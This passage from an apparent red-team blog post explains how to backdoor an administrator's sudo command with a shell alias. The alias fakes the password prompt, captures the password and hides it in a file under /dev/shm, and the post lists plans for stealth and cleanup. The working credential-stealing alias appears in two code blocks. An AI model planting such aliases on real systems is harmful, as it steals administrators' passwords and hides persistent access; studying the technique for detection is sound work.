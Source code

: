 Regardless if the attacker attempts to obfuscate the command or not, the target file will always still be `.bash_history`, and the action will always be `FILE_OPEN`, so this logic would thus be a superior detection case.

I'm sure you can start to see where this is going...

# Opening the backdoor
Being able to read the admin's shell history gave me a ton of valuable context regarding how they manage and use the system, and I could see that they used the sudo command quite a bit.

I figured the best thing to do was backdoor their sudo, right?

There's always this classic:

```bash
alias sudo='echo -n "[sudo] password for $USER: ";stty -echo;read passwd;stty echo;echo;echo $passwd|tee -a password|sudo -S -p ""'
```

The first result I found on Google is a [very similar implementation](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb) from [Dan Borges](http://lockboxx.blogspot.com/).

These are great starting points, but that's not exactly weaponizable and ready to use. I really only want this to execute once. I don't know when the admin is going to log on, and the LAST thing I want is for someone to `cat` their `.bashrc` and find my poor attempt at a backdoor. I ESPECIALLY don't want the user to look in their shell history and see that they wrote their password, so this needs to be transparent to them.

So, lets list out the challenges we have to solve first:

- [ ] Pick a good, hidden, place to write the stolen password
- [ ] Ensure that the backdoor doesn't log itself in shell history
- [ ] Have it notify me upon execution
- [ ] Ensure that the backdoor cleans up after itself

### Picking a place to write the password
Picking a place to write the password is probably the easiest part. Find somewhere nice to write the file, that any user can write to. Ideally, this would not be on disk and in a volatile region since you don't want the file to exist for long. A great place is `/dev/shm/`

Let's make it interesting and fun for the detection team though and leave a calling card:

{:refdef: style="text-align: center;"}
![I'm really just being cheeky here, but frankly it's hilarious](/assets/2022/01/07/und3rf10w_was_here.png)
{:refdef}

Now we have fun text to use for a file name, let's add it to our backdoor:

```bash
alias sudo='echo -n "[sudo] password for $USER: ";stty -echo;read passwd;stty echo;echo;echo $passwd|tee -a /dev/shm/.dW5kM3JmMTB3X3dhc19oZXJlCg|sudo -S -p ""'
```
